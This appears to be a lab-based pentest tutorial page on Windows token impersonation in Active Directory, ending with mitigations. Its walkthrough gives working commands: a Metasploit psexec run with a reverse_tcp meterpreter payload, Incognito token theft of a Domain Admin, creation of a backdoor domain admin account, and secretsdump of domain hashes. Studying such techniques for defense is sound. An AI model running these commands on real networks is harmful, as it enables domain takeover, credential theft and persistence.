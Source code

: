 # Token Impersonation

- The attacker has compromised a Windows host (via RCE, stolen creds, or lateral movement) and escalated to local administrator or SYSTEM privileges. The goal is to leverage Windows tokens left behind by logged-in users, especially privileged ones like Domain Admins, to impersonate them and escalate privileges across the domain.
- Windows uses access tokens to represent the security context of a process or user. A token defines what the account can access (files, services, network resources). When a user logs in, Windows creates a token that gets attached to their processes. If an attacker can steal or impersonate a token, they can act as that user.

**Types of Tokens**

- **Delegation Tokens**: created when a user logs in locally or via Remote Desktop. They can be used to authenticate to remote services.

- **Impersonation Tokens**: created when a user accesses a resource remotely (e.g., via SMB). They are usually limited to local usage but can sometimes still be abused.

## What can go wrong?

If a Domain Admin token exists on the compromised machine:

- The attacker can impersonate the Domain Admin, without ever stealing or cracking their password.

- This access allows:
  - Dumping domain hashes.
  - Running remote commands (e.g., creating a new backdoor domain account).

**Essentially, all that’s required is that the Domain Admin logged in once, and their token is still available.**

## Requirements to Impersonate

- Attacker must already have administrator or SYSTEM privileges on the machine to manipulate tokens.

- A privileged user (like a Domain Admin) must have an active or cached token on the compromised system.

## Attack Walkthrough

1. Gain Access

Exploit a target system (example: THEPUNISHER) using valid creds with PsExec:

```
msfconsole

search psexec
use exploit/windows/smb/exec

set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS 10.0.2.16
set SMBUser fcastle
set SMBPass Password1!
set SMBDomain MARVEL.local
run
```

2.  Load Incognito & Enumerate Tokens

(here I logged in with the domain admin account on THEPUNISHER machine to simulate the attack scenario we described)

```
load incognito
list_tokens -u
```

```{figure} ../../../_static/AD/token-imper1.png
:alt: Enumerating Tokens via Incognito
:align: center

Enumerating Tokens via Incognito
```

3. Impersonate a Token

```
impersonate_token MARVEL\\fcastle
shell
whoami
# => marvel\fcastle
```

Revert back to our original token if needed:

```
rev2self
whoami
# => NT AUTHORITY\SYSTEM
```

Grab the admin token:

```
impersonate_token MARVEL\\administrator
shell
whoami
# => marvel\administrator
```

```{figure} ../../../_static/AD/token-imper2.png
:alt: Impersonating Domain Admin
:align: center

Impersonating Domain Admin
```

Now we have full Domain Admin privileges.

4. Persistence via New Admin Account

```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

5. Verify Priveleges

```
impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@10.0.2.18
```

```{figure} ../../../_static/AD/token-imper3.png
:alt: Dumping Domain Secrets via new admin account
:align: center

Dumping Domain Secrets via new admin account
```

## Mitigations

- Restrict Token Creation: limit which users/groups can create delegate/impersonation tokens.
- Account Tiering: Domain Admins should only log into Domain Controllers, never workstations/servers. Use separate accounts for daily tasks.
- Local Admin Restriction: minimize the number of local admins and apply LAPS (Local Administrator Password Solution) for unique passwords.
